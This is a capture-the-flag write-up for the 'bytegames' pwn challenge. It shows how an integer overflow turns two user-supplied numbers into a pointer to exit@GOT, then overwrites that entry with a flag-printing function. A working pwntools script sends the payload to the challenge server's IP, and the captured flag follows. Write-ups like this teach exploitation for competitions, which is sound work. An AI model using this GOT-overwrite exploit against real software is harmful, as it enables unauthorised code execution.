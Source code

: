 Memory Layout:

main function address: the start of the main function in the binary.

exit@GOT: the address of the exit function's GOT entry.

deathNote: the address of the function that prints the flag.

We need to calculate number1 and number2 such that the sum of the two numbers gives us an offset from main to exit@GOT. Specifically, we want:

`-(number1 + number2) = exit@GOT - main`

## Exploit

To exploit this, we need to:

1) Find the offset from main to exit@GOT.
2) Choose `number1` and `number2` such that their sum produces this offset.
3) Overwrite the GOT entry for exit with the address of deathNote.
   
Step 1: Calculate the Offset
We disassemble the binary and calculate the offset between main and exit@GOT. From the binary analysis:

  a) `main` function address: The program's main function starts at a certain address, say 0x4011a0 (you can find this using GDB or objdump).
  
  b) `exit@GOT` address: The GOT entry for exit is at 0x404048.

`offset = exit@GOT - main`
and by using this with the formula above, we get the 2nd number as `2147472320` and 1st num as `2147483647`

Step 2: Overwrite the GOT Entry
Now that we have the correct `number1` and `number2`, we can use the program's logic to calculate an address that points to `exit@GOT`. We then overwrite `exit@GOT` with the address of `deathNote`.

```py
from pwn import *

context.binary = elf = ELF("./bytegames")
#io = process()
io = remote("165.232.176.84", 31685)

io.recvuntil("Enter your first number: ")
io.sendline("2147483647")

io.recvuntil("Enter the second number: ")
io.sendline("2147472320")


io.recvuntil("Enter the name of the person, whom you wish to kill, in the Death Note: ")

payload = p64(0x4012a3)
io.sendline(payload)

io.interactive()
```

`BsidesDehradun{D34tH_1s_0nLy_Th3_Beg1nNing_191cdae0ef1}`
